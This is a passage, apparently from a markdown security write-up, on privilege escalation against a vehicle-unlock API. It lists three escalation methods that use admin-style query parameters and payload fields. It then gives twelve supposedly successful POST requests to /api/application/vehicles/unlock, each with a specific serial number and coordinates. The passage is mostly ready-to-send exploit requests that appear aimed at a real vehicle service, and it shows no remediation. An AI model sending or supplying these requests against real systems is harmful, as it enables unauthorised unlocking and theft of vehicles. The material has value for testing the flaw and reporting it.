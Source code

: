 ```json

// With role in payload
{
  "serial_number": "TUF061",
  "lat": 48.8566,
  "lng": 2.3522,
  "role": "admin"
}
```

### Attack Vectors

#### Vector 1: Query Parameter Escalation
**Method**: Add admin query parameters to regular unlock endpoint
**Example**: `?admin=true`, `?force=true`, `?scope=admin`
**Impact**: Immediate admin privileges

#### Vector 2: Payload Parameter Escalation
**Method**: Add admin parameters to request payload
**Example**: `"admin": true`, `"scope": "admin"`, `"role": "admin"`
**Impact**: Admin privileges via payload manipulation

#### Vector 3: Combined Escalation
**Method**: Use both query parameters and payload parameters
**Example**: `?admin=true` + `"force": true`
**Impact**: Maximum privilege escalation

---

## 🚨 Complete List of Working Admin Endpoints

### SUCCESS 1-4: admin=true Parameter
```
POST /api/application/vehicles/unlock?admin=true
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "force": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "admin": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "scope": "admin"}
```

### SUCCESS 5-8: force=true Parameter
```
POST /api/application/vehicles/unlock?force=true
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "force": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "admin": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "role": "admin"}
```

### SUCCESS 9-12: scope=admin Parameter
```
POST /api/application/vehicles/unlock?scope=admin
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "force": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "admin": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "role": "admin"}
```
